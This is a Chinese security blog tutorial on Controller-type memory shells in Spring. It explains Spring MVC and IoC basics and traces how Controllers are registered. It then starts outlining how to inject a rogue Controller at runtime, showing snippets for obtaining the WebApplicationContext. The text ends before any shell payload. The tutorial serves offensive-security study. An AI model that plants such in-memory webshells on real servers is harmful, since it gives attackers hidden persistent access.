# Spring内存马之Controller

## Spring简介

这里为了先过一遍内存马，关于 Spring 的知识简单写了一点，实际上我们应该更深入的去学习 Spring 的内容，不应局限于本文所提内容。

Spring（Spring Framework）是一个支持快速开发 Java EE 应用程序的开源框架，提供了一系列底层容器和基础设施，同时可以和其他常用的开源框架无缝集成，其核心理念为 IoC（Inversion of Control，控制反转）和 AOP（AspectOrientedProgramming，面向切面编程）。

随着 Spring 越来越受到开发者的青睐，又不断诞生了 Spring Boot、Spring Cloud、Spring Data、Spring Security 等一系列基于 Spring Framework 的项目。


Spring 框架分层结构如下图所示：


## Spring Boot

Spring Boot 是一个基于 Spring 的套件，它帮我们预组装了 Spring 一系列组件，目的是为了简化配置开发基于 Spring 的 Java 应用程序。通过 Spring Boot 我们可以对大部分组件开箱即用，仅仅需要少量配置代码，使开发者更加专注于处理系统的业务逻辑。

通过 IDEA 的 Spring Initializr 可以快速创建好一个 SpringBoot Web 项目


创建完成之后生成一个启动类


编写一个`HelloController`类
```java
package com.study.springdemo.Controller;

import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;

/**
 * Created by dotast on 2022/11/25 16:37
 */
@Controller
public class HelloController {

    @ResponseBody
    @RequestMapping("/hello")
    public String SayHello(){
        return "Hello!";
    }
}
```

启动后访问`/hello`


我们看一下默认创建的 pom.xml 文件


官方说明如下


在外部库中也可以看到已经自动帮我们导入了包括 Spring MVC 等依赖，这也是为什么我们上面的`HelloController`生效的原因所在。


## Spring MVC

我们知道 Tomcat 是一个 Servet 容器，在底层封装网络通信和协议解析，而作为处理请求业务逻辑的 Servlet 逻辑处理器又被 Tomcat 所管理其生命周期。因此可以简单认识到 WEB 应用程序的核心是基于 Servlet，启动运行又依靠于 Tomcat。

那么什么又是 Spring MVC 呢？Spring MVC 是 Spring 框架提供的基于 MVC 模式，结合 Java 注解的轻量级 WEB 开发框架。其核心类是继承于 HttpServlet 的`DispatchServlet`，负责处理请求业务逻辑部分，那么剩下的运行环境则由 Tomcat 提供支持。

看看 Spring MVC 处理请求的流程图：


简单分析一下流程：

1. **用户发送请求 --> DispatcherServlrt**：接受用户发送的请求委托给`DispatcherServlrt`进行处理；
2. **DispatcherServlrt --> HandlerMapping**：`HandlerMapping`处理器映射组件把请求映射为`HandlerExecutionChain`对象（包含一个 Handler 处理器和多个 HandlerInterceptor 拦截器）；
3. **DispatcherServlet --> HandlerAdapter**：`DispatcherServlrt`获取到返回的`Handler`处理器之后还不能直接调用其逻辑，需要发送到`HandlerAdapter`将`Handler`包装为适配器；
4. **HandlerAdapter --> 调用处理器相应功能处理方法**：`HandlerAdapter`根据适配的结果调用真正的处理器（Controller 控制器）功能处理对应的方法，在完成处理之后，返回`ModelAndView`对象（包含模型数据、逻辑视图名）；
5. **ModelAndView 的逻辑视图名 --> ViewResolver**：`ViewResolver`将逻辑视图名解析为具体的`View`并返回；
6. **View --> 渲染**：`View`根据传进来的`Model`（模型数据）进行渲染并返回到`DispatcherServlrt`；
7. **DispatcherServlrt --> 用户**：最后由`DispatcherServlrt`返回渲染后的响应结果给用户，完成一次请求响应过程。

## Controller型内存马

### Bean

Bean 是 Spring 框架的一个核心概念，是构成应用程序的主干，由 Spring IoC 容器负责实例化、配置、组装和管理的对象。

### Ioc容器

IoC（Inversion of Control）直译为控制反转，又称许多人称为“依赖注入”。在谈 IoC 容器前，先了解一下容器的相关概念。在前面的学习中，我们知道 Tomcat 是一个 Servlet 容器，为 Servlet 的运行提供了运行环境，那么我们可以简单的定义：容器是为某个组件提供运行支撑环境的存在。

当前容器本身还提供了许多我们“看不见”的服务，例如，我们知道 Tomcat 底层实现了 TCP 连接，解析 HTTP 协议等非常复杂的服务。早期的 JavaEE 服务器提供的 EJB 容器就是通过声明式事务服务，使得 EJB 的开发人员不必再编写冗长的事务处理代码，极大简化了事务处理。

说回 Spring，Spring 提供的 IoC 容器可以轻松管理所有轻量级的 JavaBean 组件，提供的底层服务包括组件的生命周期管理、配置和组装服务、AOP 支持以及建立在 AOP 基础上的声明式事务服务。那么不禁让人发起疑问：IoC 出现的背景是什么？又解决了什么问题？

我们给出一个例子：假定一个外卖小程序

通过`FoodService`获取商品
```java
public class FoodService{
  private ProgramConfig config = new ProgramConfig();
  private DataSource dataSource = new ProgramDatasource(config);
  
  public Food getFood(long foodId){
    try(Connection conn = dataSource.getConnection()){
      ......
      return food;
    }
  }
  ......
}
```

通过`UserService`获取用户
```java
public class UserService{
  private ProgramConfig config = new ProgramConfig();
  private DataSource dataSource = new ProgramDatasource(config);
  
  public User getUser(long userId){
    try(Connection conn = dataSource.getConnection()){
      ......
      return user;
    }
  }
  ......
}
```

通过这两个类我们可以看到，为了从数据库中取出商品信息，`FoodService`需要一个`DataSource`，而`DataSource`的一些配置信息又需要从配置类`ProgramConfig`中获取，我们还需要再实例化`FoodService`类。

而在`UserService`类中，为了从数据库中取出用户信息，我们又做了上述工作，再实例化一次`ProgramConfig`。接下来场景到了用户购买商品时，我们得编写一个`BuyServlet`。
```java
public class BuyServlet extends HttpServlet{
  private FoodService foodService = new FoodService();
  private UserService userService = new UserService();
  ......
} 
```

在`BuyServlet`中，我们分别得实例化`FoodService`类和`UserService`类，而这仅仅是一个购买的问题，在购买订单或者退款订单相关的`Servlet`中我们依然继续要实例化上述两个类，这时候问题就出现了。

1. 代码开始变得冗长，多个类完全可以使用同一个`DataSource`，同样多个相关功能也完全可以共享同一个`FoodService`和`UserService`，但谁来担任创建和负责获取的角色？这是一个问题。
2. 实例化的组件在结束流程后需要进行销毁以释放连接资源，但如果像第一个问题已经开始共享了`DataSource`，那么如何确保使用该组件的类都进行了销毁？
3. 上述例子只举例了寥寥两三个组件，但一个实际上线的系统所使用的组件是很多的，编写共享的依赖关系时呈逐渐复杂上升的趋势。

因此，当一个系统使用了大量组件的时候，如果其生命周期和依赖关系依然由组件自身维护，将大大增加系统的复杂度，并且会使其有极其紧密的耦合关系，而 IoC 就是为了解决这一系列问题而诞生。

在传统的应用程序中，控制权在应用程序本身，而在 IoC 模式下，控制权发生了反转变化，从应用程序转移到了 IoC 容器，即所有的组件不再由应用程序自己创建和配置，而是全权交由 IoC 容器负责处理。在这种模式下，应用程序只需要直接使用已经创建并配置完成的组件，也就是使用“依赖注入”。举例来说，就是`FoodService`不再创建`DataSource`，而是由外部通过`setDataSource()`方法注入`DataSource`。
```java
public class FoodService{
  private DataSource dataSource;
  
  public void setDataSource(DataSource dataSource){
    this.dataSource = dataSource;
  }
  ......
}
```

这也是为什么 IoC 又被称为“依赖注入”的原因，它将组件的创建配置与组件的使用相分离，由 IoC 来负责管理组件的生命周期。既然 IoC 要负责实例化程序需要的组件，那么我们需要告诉容器如何去创建组件与处理各组件的依赖关系，比较简单的方式就是通过 XML 文件来实现：
```xml
<beans>
    <bean id="dataSource" class="ProgramDatasource" />
    <bean id="foodService" class="FoodService">
        <property name="dataSource" ref="dataSource" />
    </bean>
    <bean id="userService" class="UserService">
        <property name="dataSource" ref="dataSource" />
    </bean>
</beans>
```

上述配置文件中，告诉 IoC 容器需要创建三个 JavaBean 组件（在 Spring IoC 容器中，将所有组件统称为 JavaBean），并把 id 为`dataSource`的组件通过属性`dataSource`（调用`setDataSource()`方法注入到另外两个组件中）。

另一种方式则是采用注解的方式进行配置，例如给`FoodService`添加一个`@Component`注解
```java
@Component
public class FoodService{
  ......
}
```

`@Component`注解相当于定义了一个 Bean，名称默认为`foodService`，即小写开头的类名。

接着我们到`UserService`类中添加`@Component`注解和`@Autowired`注解
```java
@Component
public class UserService {
    @Autowired
    FoodService foodService;
    ...
}
```

使用`@Autowired`注解相当于把制定类型的 Bean 注入到指定的字段中，当然也可以选择注入到方法中。

### ApplicationContext

`ApplicationContext`是一个 Spring 容器，是一个继承于`BeanFactory`类的接口，有很多实现类。在 Spring 框架，`BeanFactory`接口是 Spring IoC 容器，也就是说获得了`ApplicationContext`类的实例，就获得了 IoC 容器的引用，那么换句话说`ApplicationContext`类就代表了 IoC 容器，由它来负责实例化和配置对象（Bean）和建立这些对象（Bean）之间的依赖。最后我们可以在`ApplicationContext`中根据`Bean`的 ID 获取对应的 Bean。

### ContextLoaderListener

`ContextLoaderListener`主要被用来初始化全局唯一的`Root Context`，即`Root WebApplicationContext`。该`Root WebApplicationContext`和其他`Child Context`实例共享它的`IoC`容器，以供其他`Child Context`获取并使用容器中的 Bean。

`Child Context`由`DispatcherServlet`所创建，代表一个独立的 IoC 容器，而`ContextLoaderListener`所创建的`Root Context`则代表全局唯一的公共 Ioc 容器。

前面也说到，如果我们要访问和操作相应的 Bean ，则需要通过`ApplicationContext`（当前代码执行环境的 IoC 容器），这里做个小笔记总结：

- Spring 应用程序中只有一个`Root Context`，其余的则都是`Child Context`；
- `Root Context`中定义的 Bean 可以被其他`Child Context`访问，但`Root Context`无法访问`Child Context`中定义的 Bean；
- 所有的`Context`在被创建后，都会被添加到`ServletContext`的属性中。

### 流程分析

在之前我们分析`Servlet`内存马的时候，到最后注册流程可以简单归纳为做了两件事情：`Servlet`本身的实现和`Servlet`与`ServletMapping`映射，而今天的主题`Controller`也与此类似，`Controller`的注册除了需要自己本身的实现还需要完成`RequestMapping`映射。

首先我们需要知道一个`Controller`是如何被注册到内存中运行，继续以前面的`HelloController`代码为例，在`AbstractHandlerMethodMapping#initHandlerMethods`处打上断点


在该方法中，通过`this.getCandidateBeanNames()`方法获取到所有的 Bean 并进行遍历，接着调用了`processCandidateBean()`方法，跟进该方法


在`processCandidateBean()`方法中获取了对应的 Bean 类型并通过`isHandler()`方法做了判断，最后再调用`detectHandlerMethods()`方法，我们看看`isHandler()`方法具体做了什么判断


可以清晰的看到这里通过`isHandler()`方法去判断传入的 Bean 类型是否为`Controller`或者是否被`RequestMapping`注解所修饰。回到`processCandidateBean()`方法，我们继续看最后的`detectHandlerMethods()`方法又做了哪些事情👇🏻


首先通过全类名获取了`HelloController`类的实例，接着又遍历获取了`HelloController`类中的方法存到 Map 对象 methods 中，接着调用`getMappingForMethod()`方法，我们继续跟进去


在`getMappingForMethod()`方法中，首先调用了`createRequestMappingInfo()`方法，先跟进去`createRequestMappingInfo()`方法看看


继续跟进`this.createRequestMappingInfo()`方法


继续跟进`builder.options(this.config).build();`


到这里完成`RequestMappingInfo`对象的创建，至此可以清楚的了解到`getMappingForMethod()`方法做的事情：通过解析`Controller`类方法中的注解，生成一个`RequestMappingInfo`对象用于存储访问对应方法的 URL 映射信息。

接着回到`detectHandlerMethods()`方法，看到最后调用了`registerHandlerMethod()`方法


跟进`registerHandlerMethod()`方法


继续跟进


跟进`MappingRegistry#register()`方法


可以看到，在`register()`方法中将传入的`RequestMappingInfo`对象、`handler`名称和对应的`method`方法进行映射和包装处理并添加，相关属性如下图所示


到这里，基本就走完了一个`Controller`的注册流程。

### 动态注入Controller

接下来我们就要开始动手进行动态注入`Controller`的工作，通过前面的分析我们可以大致梳理出动态注册的流程：

1. 获取上下文环境；
2. 创建 Bean 实例并获取对应处理请求的 Method；
3. 配置路径映射，通过`MappingRegistry#register()`方法添加进行注册

先说说上下文环境 Context 的获取方式，师傅们已经总结出了大致五种：

**getCurrentWebApplicationContext**

通过`getCurrentWebApplicationContext()`方法获取到的是一个`XmlWebApplicationContext`实例类型的`Root WebApplicationContext`。

```java
WebApplicationContext context = ContextLoader.getCurrentWebApplicationContext();
```

**WebApplicationContextUtils**

这里`WebApplicationContextUtils.getWebApplicationContext()`也可以替换成`WebApplicationContextUtils.getRequiredWebApplicationContext()`
```java
WebApplicationContext context = WebApplicationContextUtils.getWebApplicationContext(RequestContextUtils.findWebApplicationContext(((ServletRequestAttributes)RequestContextHolder.currentRequestAttributes()).getRequest()).getServletContext());
```



**RequestContextUtils**

通过`ServletRequest` 类的实例来获得 `Child WebApplicationContext`。
```java
WebApplicationContext context = RequestContextUtils.findWebApplicationContext(((ServletRequestAttributes)RequestContextHolder.currentRequestAttributes()).getRequest());
```

函数原型为 `public static WebApplicationContext getWebApplicationContext(ServletRequest request)` （spring 3.1 中`findWebApplicationContext`需要换成`getWebApplicationContext` ）

